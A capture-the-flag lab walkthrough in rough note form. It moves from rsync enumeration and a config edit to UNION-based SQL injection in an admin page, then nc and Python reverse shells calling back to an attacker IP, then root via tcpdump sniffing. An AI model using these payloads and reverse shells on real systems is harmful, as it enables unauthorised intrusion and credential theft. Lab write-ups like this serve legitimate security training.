 start with nmap



***

http 80

default apache webpage is open.

/admin :forbidden
comment : `<!-- Make sure admin functionality can only be used in development environment. -->`
- fuzz /admin recursively.
recursive fuzzing : /config.php and index.php found


/index.php

- fuzz with php extention(nothing new found)

fuzz /admin with big wordlist with php extention.

***

rsync

```
─$ nc -vn $ip 873
(UNKNOWN) [10.10.94.172] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
Conf            All Confs
@RSYNCD: EXIT


```
found `Conf` list.

lets enumerate `Conf`

authentication not required so download all files

`rsync -av rsync://$ip/Conf ./`

read files see if something found.

user: tom
password : theCat


`<!-- Make sure admin functionality can only be used in development environment. -->` by this we need to change the production env to dev enviroment. we can do that by modifiying the `webapp.ini` file. in `Conf` share.

edit the file.

```
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
```

change `prod` to `dev`

```
[Web_App]
env = dev
user = tom
password = theCat

[Details]
Local = No


```

revisit http://$ip/admin

found sql injection

http://$ip/admin/config.php


username : test" union select 1,2,3-- -


enum for tables :
`test" union select 1,table_name,3 from information_schema.tables where table_schema=database()-- -`

found table : users


enum for columns :


`test" union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'-- -`

column found:id,uname,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS 3


hash found :

```
E8B04506872147D6200E9FB48B27B5C72F173FF0
2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 : password (dev)

```

get shell as www-data using sqlmap

rm -f /tmp/p; mknod /tmp/p p && nc 10.11.57.82 1234 0/tmp/p

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.57.82",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

***

privs

/usr/sbin/tcpdump = cap_net_raw+ep                                                                                                  

/usr/bin/gettext.sh

127.0.0.1:1027

127.0.0.1:3306

***

sniff traffic with tcpdump and save it in file. then trasfer file to my kali machine and analyse using wireshark

found id_rsa of root.

ssh as root.